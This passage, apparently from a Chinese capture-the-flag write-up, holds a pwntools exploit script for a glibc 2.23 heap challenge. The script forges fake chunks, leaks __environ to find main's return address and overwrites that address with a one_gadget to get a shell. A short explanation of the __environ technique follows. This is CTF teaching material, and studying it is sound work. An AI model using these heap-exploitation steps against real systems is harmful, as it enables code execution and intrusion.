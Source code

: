 ```python
fakechunk_size = 0x101
fakechunk = p64(0)+p64(fakechunk_size)+p64(fakechunk_addr)+p64(fakechunk_addr)
edit(3,b'd'*0x20 + fakechunk)

#overwrite idx 1's prev_size and
# set minaddr of size to '\x00'
# idx 0's chunk size is 0x20
diff = heap_base + 0x20 - fakechunk_addr
log.info('diff between idx1 and fakechunk: ' + hex(diff))
# '\0' padding caused by strcpy
diff_strip = p64(diff).strip(b'\0')
number_of_zeros = len(p64(diff)) - len(diff_strip)
for i in range(number_of_zeros + 1): 
    data = diff_strip.rjust(0x18 - i,b'f')
    edit(1, data)
delete(2)
link.recvuntil(b'\nDeleted.')

# fix the fake chunk size, fd and bk
# fd and bk must be unsorted bin
edit(4,b'd'*0x20+p64(0)+p64(0x101)+p64(main_arena+88)+p64(main_arena+88))

# 3. overwrite malloc_hook with one_gadget
one_gadget_addr = libc_base + ogg[1]
environ_pointer = libc_base + libc.symbols['__environ']
log.info('one gadget addr: ' + hex(one_gadget_addr))
log.info('environ pointer addr: ' + hex(environ_pointer))
#fake_malloc_chunk = main_arena - 60 + 9
# set memo[0].size = 'a'*8,
# set memo[0].content point to environ to leak environ addr
fake_pad =b'f'*(0x100-0x20-0x10)+b'a'*8+p64(environ_pointer)+b'a'*8+p64(0x602148)
# get a fake chunk
add(0x100 - 8, fake_pad)  # idx 2
#gdb.attach(p)

# get environ addr
link.recvuntil(b' # CONTENT: ')
environ_addr = link.recvuntil(b'\n', drop=True).ljust(8,b'\x00')
environ_addr = u64(environ_addr)
main_ret_addr = environ_addr - 30 * 8
print(hex(main_ret_addr))

# set memo[0].content point to main_ret_addr
edit(2, p64(main_ret_addr))
# overwrite main_ret_addr with one_gadget addr
edit(1, p64(one_gadget_addr))

# gdb.attach(p,'set solib-search-path ~/FocusingCTF/glibc/2.23-0ubuntu3_amd64/')
# pause()

link.interactive()
```

### 拓展：__environ
通过 libc 找到的符号 symbol：`__environ`

利用 libc 基址算出来`__environ`的地址，往里面取指针，指向的地方跟 main 函数的返回地址很近，偏移是固定的

可以利用这个点来获取到 main 函数的返回地址，从而修改程序流

![](/images/4326e140df3ce26b7190f0d4f26b58eb.png)

